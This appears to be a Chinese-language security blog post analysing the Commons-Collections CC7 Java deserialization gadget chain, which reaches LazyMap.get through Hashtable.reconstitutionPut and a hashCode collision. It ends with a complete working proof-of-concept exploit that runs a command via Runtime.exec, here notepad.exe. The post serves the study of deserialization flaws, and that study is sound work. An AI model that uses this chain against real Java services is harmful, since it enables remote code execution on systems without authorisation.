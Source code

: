 ```yaml
---
title: Commons-Collections篇08-CC7链
date: 2025-9-29 21:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


## 调用链

![image-20250930181113452](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930181113452.png)

# CC7链分析

## 流程分析

后半段链就是`CC1链-Lazymap链`，CC7链中调用get方法的函数变了，`AbstractMap.equals()`调用了get方法，但是我们用的时候实际用的是`HashMap.equals()`，但是`HashMap`没有这个方法，所以用了父类的

![image-20250930143350184](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930143350184.png)

![image-20250930160114090](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930160114090.png)

`AbstractMapDecorator.equals()`调用了`equals()`，这里也是一样，用的时候是用了`Lazymap.equals()`，但是`Lazymap`没有`equals()`，所以用了父类的`equals()`

![image-20250930160138076](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930160138076.png)

![image-20250930143305112](././Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930143305112.png)

`HashTable`中`reconstitutionPut`方法调用了`equals()方法`，但是需要进入for循环，并且满足if前面hash值相等的条件才能走到`equals()`方法

`for`循环是遍历`table`中的内容，`readObject`第一次循环是`table`中还是空，在`reconstitutionPut`，for循环下面才会把第一个值赋给`table`，`readObject`第二次循环时`table`中才有内容才可以进入`for`循环，并且还需要找两个相同hash值的值

![image-20250930143215138](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930143215138.png)

并且在`readObject`中调用了`reconstitutionPut`方法，

![image-20250930143240583](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930143240583.png)

看序列化代码，for循环里先将table数组的长度写入，然后再挨个写入键值对的值，在反序列化代码最后，是利用for循环从序列化流中挨个读键值对内容，然后再用`reconstitutionPut`方法将键值对写到`table`中去

![image-20250930161105095](./Commons-Collections%E7%AF%8708-CC7%E9%93%BE/image-20250930161105095.png)

## 代码实现

### equals方法调用get

我们传入两个`LazyMap`进行`equals`比较，是可以调用get方法成功执行代码，yy和zZ经过测试hahsCode的值是一样的

```java
        Map <Object,Object> hashMap1 = new HashMap<>();
        Map <Object,Object> hashMap2 = new HashMap<>();
        Map decoratemap1 = LazyMap.decorate(hashMap1,chainedTransformer);
        decoratemap1.put("yy",1);

        Map decoratemap2 = LazyMap.decorate(hashMap2,chainedTransformer);
        decoratemap2.put("zZ",1);

        decoratemap2.equals(decoratemap1);
```

## **Hashtable.reconstitutionPut**

上面说到反序列化时`readObject`中会通过`for`循环将序列化流中内容拿出来然后通过`reconstitutionPut`再装到`table`里，想要进入`reconstitutionPut`的for循环就要写入不止一个值，我们写入两个值，并且

```java
        Hashtable hashtable = new Hashtable();
        hashtable.put(decoratemap1,1);
        hashtable.put(decoratemap2,1);
```

并且put时也会调用equals函数，所以我们要在前面将`ChainedTransformer`的值改为空，让链子不能正常执行，在put完再改回来，并且put完decoratemap2的size变为2，要删掉这个多余的key值

# 完整代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.util.*;

public class CC7 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});
//        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform("aaa");
        Map <Object,Object> hashMap1 = new HashMap<>();
        Map <Object,Object> hashMap2 = new HashMap<>();
        Map decoratemap1 = LazyMap.decorate(hashMap1,chainedTransformer);
        decoratemap1.put("yy",1);

        Map decoratemap2 = LazyMap.decorate(hashMap2,chainedTransformer);
        decoratemap2.put("zZ",1);


        Hashtable hashtable = new Hashtable();
        hashtable.put(decoratemap1,1);
        hashtable.put(decoratemap2,1);
        decoratemap2.remove("yy");
        
        Class c =chainedTransformer.getClass();
        Field transformer = c.getDeclaredField("iTransformers");
        transformer.setAccessible(true);
        transformer.set(chainedTransformer,transformers);

        serialize(hashtable);
        unserialize();

    }
    public static void serialize(Object obj) throws Exception{
        java.io.ObjectOutputStream objectOutputStream = new java.io.ObjectOutputStream(new java.io.FileOutputStream("cc7.ser"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void unserialize() throws Exception{
        java.io.ObjectInputStream objectInputStream = new java.io.ObjectInputStream(new java.io.FileInputStream("cc7.ser"));
        Object obj = objectInputStream.readObject();
        objectInputStream.close();
    }
}

```

